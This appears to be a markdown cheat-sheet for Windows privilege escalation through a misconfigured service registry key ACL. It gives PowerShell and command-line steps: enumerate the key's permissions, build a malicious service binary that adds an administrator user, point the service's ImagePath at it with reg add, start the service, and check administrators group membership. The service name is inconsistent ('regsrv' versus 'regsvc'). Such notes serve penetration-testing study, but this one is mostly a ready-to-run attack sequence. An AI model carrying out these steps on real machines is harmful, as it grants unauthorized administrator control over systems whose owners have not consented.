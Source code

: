 # Service Registry ACL Privilege Escalation
Enumeration using PowerShell:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsrv | fl
```
Check the output for 'NT AUTHORITY\INTERACTIVE' has 'Allow FullControl'<br>
Create a malicious service:<br>
https://github.com/sagishahar/scripts/blob/master/windows_service.c<br>
Update code to add a new administrator user<br>
Compile.<br>
Install the malicious executable:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsrv /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
Restart the service
```
sc start regsvc
```
Confirm by checking the administrators group membership
```
net localgroup administrators
```
